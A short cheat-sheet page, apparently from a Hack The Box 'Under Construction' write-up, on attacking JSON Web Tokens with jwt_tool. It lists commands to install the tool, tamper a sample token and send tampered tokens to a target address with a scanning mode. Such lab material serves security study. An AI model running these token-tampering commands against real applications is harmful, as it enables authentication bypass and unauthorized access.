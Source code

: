 # JWT Toolkit: Attacking JWT Tokens

1. Download [JSON Web Token Toolkit](
https://github.com/ticarpi/jwt_tool.git)
2. Install required libraries

        pip3 install pycryptodomex

3. Tamper an existing JWT token by passing `-T` option

        python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.aqNCvShlNT9jBFTPBpHDbt2gBB1MyHiisSDdp8SQvgw -T

4. Send tampered tokens directly to a target application

        python jwt_tool.py -t http://165.232.35.118:30532/ -rc "session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJsb2dpbiI6InRpY2FycGkifQ.aqNCvShlNT9jBFTPBpHDbt2gBB1MyHiisSDdp8SQvgw" -cv "Welcome" -M er

## References

* https://ncu204.com/post/hack_the_box/under-construction/
* https://www.tariqhawis.com/htb-under-construction-web-challange/
* https://github.com/ticarpi/jwt_tool/wiki
* https://www.pingidentity.com/en/company/blog/posts/2019/jwt-security-nobody-talks-about.html
* https://pyjwt.readthedocs.io/en/latest/
